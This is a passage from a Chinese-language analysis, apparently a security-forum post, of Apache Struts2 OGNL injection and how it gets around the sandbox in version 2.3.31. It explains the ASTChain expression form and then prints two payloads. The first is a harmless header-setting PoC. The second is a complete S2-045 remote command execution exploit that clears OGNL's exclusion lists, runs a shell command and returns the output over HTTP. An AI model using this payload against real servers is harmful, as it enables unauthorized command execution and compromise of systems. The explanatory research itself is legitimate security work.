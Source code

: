 [![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-3aa19ef9adf8f44b65067529c4fe8f821e585727.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-3aa19ef9adf8f44b65067529c4fe8f821e585727.png)

所以这里换一种表达式形式：`(e1).(e2).(e3).(e4)....`。这种形式的表达式会被解析为`ASTChain`类型，没有被限制执行。

所以，构造简单PoC如下：

```php
%{
(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#a=1).
(#b=2*#a).
(#c=2*#b).
(#ret=4*#c).
(#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',#ret)).
(multipart/form-data)
}
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7c39694b5eb2c50ebe8841e2a4bf51822b558b69.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7c39694b5eb2c50ebe8841e2a4bf51822b558b69.png)

要构造命令执行的PoC，首先要将上下文对象`context`的`_memberAccess`属性重新赋值为`DEFAULT_MEMBER_ACCESS`。但Struts2 `2.3.31`的代码里，上下文对象`context`内部的`Map`集合已经没有`_memberAccess`这个键，当然也就无法向之前一样通过`#context['_memberAccess']`或`#_memberAccess`去访问`context`的`_memeberAccess`属性。(详见`OgnlContext`的`static`代码块和`get(Object key)`方法)

但可以通过`OgnlContext`的`setMemberAccess()`方法去设置它。然而在此之前，还得做些工作。否则`OgnlContext#setMemberAccess()`无法执行。为什么呢？这里直接拿网上的漏洞利用工具/脚本里的`S2-045`漏洞exploit来解释，如下:

```php
%{
(#t='multipart/form-data').
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#_memberAccess?(#_memberAccess=#dm):
        (
        (#container=#context['com.opensymphony.xwork2.ActionContext.container']).
        (#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
        (#ognlUtil.getExcludedPackageNames().clear()).
        (#ognlUtil.getExcludedClasses().clear()).
        (#context.setMemberAccess(#dm)))).
(#cmd='id').
(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).
(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).
(#p=new java.lang.ProcessBuilder(#cmds)).
(#p.redirectErrorStream(true)).
(#process=#p.start()).
(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).
(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).
(#ros.flush())
}
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d5f6982b94280d0753d1672adc2807d9bef5fedc.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d5f6982b94280d0753d1672adc2807d9bef5fedc.png)
